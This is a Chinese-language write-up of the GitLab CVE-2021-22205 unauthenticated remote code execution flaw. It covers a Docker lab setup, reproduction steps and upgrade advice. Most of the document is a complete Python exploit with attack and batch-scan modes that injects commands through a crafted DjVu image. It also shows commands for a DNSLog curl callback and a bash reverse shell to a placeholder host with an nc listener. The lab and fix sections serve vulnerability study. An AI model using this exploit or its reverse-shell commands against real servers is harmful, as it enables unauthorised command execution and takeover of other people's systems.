


# GitLab 远程命令执行漏洞 CVE-2021-22205

## 漏洞描述

GitLab是一款Ruby开发的Git项目管理平台。在11.9以后的GitLab中，因为使用了图片处理工具ExifTool而受到漏洞[CVE-2021-22204](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)的影响，攻击者可以通过一个未授权的接口上传一张恶意构造的图片，进而在GitLab服务器上执行任意命令。

参考链接：

- https://hackerone.com/reports/1154542
- https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html
- https://security.humanativaspa.it/gitlab-ce-cve-2021-22205-in-the-wild/
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-22205.yaml

## 环境搭建

Vulhub执行如下命令启动一个GitLab 13.10.1版本服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到GitLab的登录页面。

## 漏洞复现

GitLab的/uploads/user接口可以上传图片且无需认证，利用[poc.py](https://github.com/vulhub/vulhub/blob/master/gitlab/CVE-2021-22205/poc.py)脚本来测试这个漏洞：

```
python poc.py http://your-ip:8080 "touch /tmp/success"
```



进入容器内，可见`touch /tmp/success`已成功执行：



另一个 exp：https://github.com/Al1ex/CVE-2021-22205

漏洞检测：

```
python3 CVE-2021-22205.py -v true -t http://your-target-ip:port/
```

DNSLog 回显：

```
python3 CVE-2021-22205.py -a true -t http://your-target-ip:port/ -c "curl http://your-ip/1.txt"
```

反弹 Shell：

```
# 写shell
python3 CVE-2021-22205.py -a true -t http://your-target-ip:port/ -c "echo 'bash -i >& /dev/tcp/your-ip/9999 0>&1' > /tmp/1.sh"

# 赋予执行权限
python3 CVE-2021-22205.py -a true -t http://your-target-ip:port/ -c "chmod +x /tmp/1.sh"

# 监听反弹shell端口
nc -vvl 9999

# 运行shell
python3 CVE-2021-22205.py -a true -t http://your-target-ip:port/ -c "/bin/bash /tmp/1.sh"
```

## 漏洞修复

1. 设置 Gitlab 仅对可信地址开放；

2. 升级至安全版本：

   GitLab（CE/EE） >= 13.8.8
   GitLab（CE/EE） >= 13.9.6
   GitLab（CE/EE） >= 13.10.3

## 漏洞POC

exp：https://github.com/Al1ex/CVE-2021-22205

```
import requests
from bs4 import BeautifulSoup
import base64
import random
import sys
import os
import argparse

requests.packages.urllib3.disable_warnings()

def title():
    print("""
	  ______     _______     ____   ___ ____  _      ____  ____  ____   ___  ____  
	 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \|___ \|___ \ / _ \| ___| 
	| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | __) | __) | | | |___ \ 
	| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/ / __/ / __/| |_| |___) |
 	\____ |  \_/  |_____|   |_____|\___/_____|_|    |_____|_____|_____|\___/|____/ 

 	                                Author:Al1ex@Heptagram
                                Github:https://github.com/Al1ex                             
    	""")
    print('''
        验证模式：python CVE-2021-22205.py -v true -t target_url 
        攻击模式：python CVE-2021-22205.py -a true -t target_url -c command 
        批量检测：python CVE-2021-22205.py -s true -f file 
        ''')    

def check(target_url):
    session = requests.Session()
    try:
        req1 = session.get(target_url.strip("/") + "/users/sign_in", verify=False)
        soup = BeautifulSoup(req1.text, features="lxml")
        token = soup.findAll('meta')[16].get("content")
        data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{curl `whoami`.82sm53.dnslog.cn} . \\\n\" b \") )                                                                                                                                                                                                                                                                                                                                                                                                                                     \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
            "Connection": "close",
            "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
            "X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate"}
        flag = 'Failed to process image'
        req2 = session.post(target_url.strip("/") + "/uploads/user", data=data, headers=headers, verify=False)
        if flag in req2.text:
            print("[+] 目标 {} 存在漏洞".format(target_url))
        else:
            print("[-] 目标 {} 不存在漏洞".format(target_url))
    except Exception as e:
        print(e)

def attack(target_url,command):
    session = requests.Session()
    try:
        req1 = session.get(target_url.strip("/") + "/users/sign_in", verify=False)
        soup = BeautifulSoup(req1.text, features="lxml")
        token = soup.findAll('meta')[16].get("content")
        data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{"+  command +"} . \\\n\" b \") )                                                                                                                                                                                                                                                                                                                                                                                                                                     \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
            "Connection": "close",
            "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
            "X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate"}
        flag = 'Failed to process image'
        req2 = session.post(target_url.strip("/") + "/uploads/user", data=data, headers=headers, verify=False)
        if flag in req2.text:
            print("[+] 目标 {} 存在漏洞".format(target_url))
            print("[+] 请到dnslog或主机检查执行结果")
        else:
            print("[-] 目标 {} 不存在漏洞".format(target_url))
    except Exception as e:
        print(e)

def scan(file):
    for url_link in open(file, 'r', encoding='utf-8'):
            if url_link.strip() != '':
                url_path = format_url(url_link.strip())
                check(url_path)

def format_url(url):
    try:
        if url[:4] != "http":
            url = "https://" + url
            url = url.strip()
        return url
    except Exception as e:
        print('URL 错误 {0}'.format(url))    

def main():
    parser = argparse.ArgumentParser(description='GitLab < 13.10.3 RCE')
    parser.add_argument('-v', '--verify', type=bool,help=' 验证模式 ')
    parser.add_argument('-t', '--target', type=str, help=' 目标URL ')

    parser.add_argument('-a', '--attack', type=bool, help=' 攻击模式 ')
    parser.add_argument('-c', '--command', type=str, help=' 执行命令 ')

    parser.add_argument('-s', '--scan', type=bool, help=' 批量模式 ')
    parser.add_argument('-f', '--file', type=str, help=' 文件路径 ')


    args = parser.parse_args()

    verify_model = args.verify
    target_url   = args.target

    attack_model = args.attack
    command = args.command

    scan_model = args.scan
    file = args.file

    if verify_model is True and target_url !=None:
        check(target_url)
    elif attack_model is True and target_url != None and command != None:
        attack(target_url,command)
    elif scan_model is True and file != None:
        scan(file)
    else:
        sys.exit(0)   

if __name__ == '__main__':
    title()
    main()
```

